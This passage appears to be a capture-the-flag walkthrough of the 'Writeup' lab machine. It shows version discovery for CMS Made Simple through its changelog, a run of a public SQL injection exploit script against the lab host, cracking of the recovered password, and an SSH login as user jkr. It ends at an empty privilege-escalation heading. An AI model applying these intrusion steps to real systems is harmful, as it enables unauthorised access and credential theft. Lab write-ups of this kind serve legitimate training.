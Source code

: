 - Finding the version.
- Visit the homepage of `cms made simple` ->  `downloads` [Here](http://www.cmsmadesimple.org/downloads/cmsms). then  find the link text for current version repo.

![svn](images/svn.PNG)

- open the link in the browser to see  the directyory structure.

![svn_directory](images/svn_directory.PNG)

- After enumerating, version details can be found in `/doc/CHANGELOG.txt`

- Now navigate to the victim site and locate the `CHANGELOG.txt` file. `/doc/CHANGELOG.txt`

__Result__

![version](images/version.PNG)


## Exploitation 

- The possible exploit is `sql injection` (from `searchsploit` results)

- Download the exploit and run.

```bash
$ python3 sql_cms.py  -u http://10.10.10.138/writeup  
```

![creds](images/creds.PNG)

- Decrypting the password

![decrypted](images/decrypted.PNG)


- log in to `ssh` with found `creds`

```bash
$ ssh jkr@10.10.10.138 
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev
```



## Privilege escalation
